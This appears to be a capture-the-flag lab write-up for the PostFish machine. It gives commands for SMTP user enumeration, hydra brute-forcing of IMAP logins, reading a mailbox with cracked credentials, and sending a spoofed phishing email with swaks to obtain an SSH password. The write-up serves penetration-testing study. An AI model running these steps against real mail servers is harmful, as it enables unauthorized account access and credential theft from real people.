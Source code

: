 ![](../attachment/7c18934a814ce7692edcef5b94a48d61.png)

Using users from the webpage at port [[PG Practice/PostFish/80]]
![](../attachment/8416cd6619df4477b4fee92998730207.png)
We can check if they exist:
```
smtp-user-enum -M VRFY -U users.txt -t 192.168.208.137
```
![](../attachment/0d3040ad25a18f7a1af20d3d44624508.png)
Then checking more users:
```
smtp-user-enum -M VRFY -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t 192.168.208.137
```
![](../attachment/4f50d05f7851e97920492676670e8122.png)]
Now adding these to users.txt and using hydra:
```
hydra -L users.txt -P users.txt imap://192.168.245.137
```
![](../attachment/e53bc53f8e94858fb14b17efb4fa3652.png)
We have creds.

Now checking messages:
```
curl -k 'imaps://192.168.245.137/INBOX;MAILINDEX=1' --user sales:sales
```
![](../attachment/0173bc55cf1b92acdd50b978c92b6fb5.png)

Now preparing a body for email to send:
![](../attachment/2e2407e9feeab73a80546608dea084fb.png)
Now we can setup a receiver and send a mail:
```
sudo swaks -t Brian.Moore@postfish.off --from it@postfish.off --server 192.168.245.137 -body @body.txt -header "Subject:Problems"
```
![](../attachment/ecb58e65ff8ce9b8466e5c34b7bd8022.png)

Using this password we can login through ssh at port [[PG Practice/PostFish/22]]
